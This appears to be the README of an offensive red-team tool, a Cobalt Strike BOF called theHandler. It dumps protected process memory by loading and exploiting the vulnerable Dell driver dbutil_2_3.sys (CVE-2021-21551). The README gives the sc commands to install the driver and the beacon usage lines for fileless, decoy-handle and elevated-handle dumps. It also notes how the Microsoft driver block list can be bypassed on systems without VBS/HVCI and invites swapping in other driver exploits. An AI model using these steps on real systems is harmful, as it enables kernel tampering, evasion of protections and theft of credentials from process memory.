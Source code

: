 # theHandler
BOF to dump process memory with handle manipulation features using Bring Your Own Vulnerable Driver (BYOVD).

Feel free to update the kernel driver exploit in this code to use it on machines that employ Microsoft's [driver block list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules). This public release uses CVE-2021-21551.

**The driver block list will NOT apply if the target machine does not have VBS/HVCI enabled, making it possible to install and exploit this vulnerable driver on up-to-date systems.**

Example screenshots:

![theHandler_1.png](./images/theHandler_1.png)

This BOF has been tested on the following Windows builds:
- Windows 10 build 19045
- Windows Server 2019 build 17763
- Windows Server 2012 build 9600

This BOF has been tested with these C2 frameworks:
- Cobalt Strike

*You can try running theHandler a second time if it outputs kernel memory addresses (starting in ffff) but fails to dump your target process. Kernel address output means the exploit works to read/write memory on your target system but theHander could not find your handle in the kernel.*

## Requirements
The vulnerable [dbutil_2_3.sys](./dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

Note: This driver is in Microsoft's block list. Installation is blocked on many systems.

Execute theHandler from medium integrity or higher. You must be in high integrity to install the vulnerable driver.

## Usage
**Important Notes:**
- Avoid the DECOY_PID option if the TARGET_PID process might be exited before or during the Minidump (May cause BSOD).
- Fileless minidumps are a work in progress. Large minidump files causes it to fail currently; opt to save dumps to disk.

After downloading your minidump file, decrypt it with [decryptMinidump.py](./decryptMinidump.py) (`python3 decryptMinidump.py <minidump_file>`).

```
Create a memory dump of a target process and download it filelessly through beacon. Use the elevate and/or decoy arguments to bypass PPL with a vulnerable driver.
NOTE: The vulnerable driver you use MUST be manually uploaded and installed on the target machine.

[TARGET_PID]     = Target PID for memory dump. Use this argument alone for a standard minidump without kernel manipulation
[ELEVATE_HANDLE] = Set to 1 to open a low privilege handle and increase its access through the kernel. Set to 0 to open a normal handle
[DECOY_PID]      = Set to the PID of a benign process. Thehandler will open this process and tamper with its handle to dump your target process
[DUMP_FILENAME]  = (WIP) Filename to save encrypted minidump on disk. The dump will be downloaded in your current working directory.

Run thehandler without arguments to retrieve the Windows build number of the target system.

Usage:
thehandler [TARGET_PID] [ELEVATE_HANDLE] [DECOY_PID] [DUMP_FILENAME]
```

## Examples
Standard Minidump for PID 423:
```
thehandler 423 0 0 dumpfile.log
```

Fileless Minidump for PID 423:
```
thehandler 423
```

Fileless Minidump with decoy process for PID 423:
```
thehandler 423 0 1139
```

Fileless Minidump with decoy process AND elevated handle for PID 423:
```
thehandler 423 1 1139
```

## Stability
TheHandler uses an offset table that covers kernel offsets for most Windows builds (thanks to the [Vergilius Project](https://www.vergiliusproject.com) for documentation on offsets). Execute theHandler without supplying arguments to check if the current machine is a supported build or not.

**NOTE: This tool reads and writes in kernel memory, meaning there is an inherent risk of Blue Screen of Death (BSOD) during execution. Always test this tool in a lab environment on the exact version of Windows you plan to execute on.**

The exploit used (CVE-2021-21551) is highly stable.

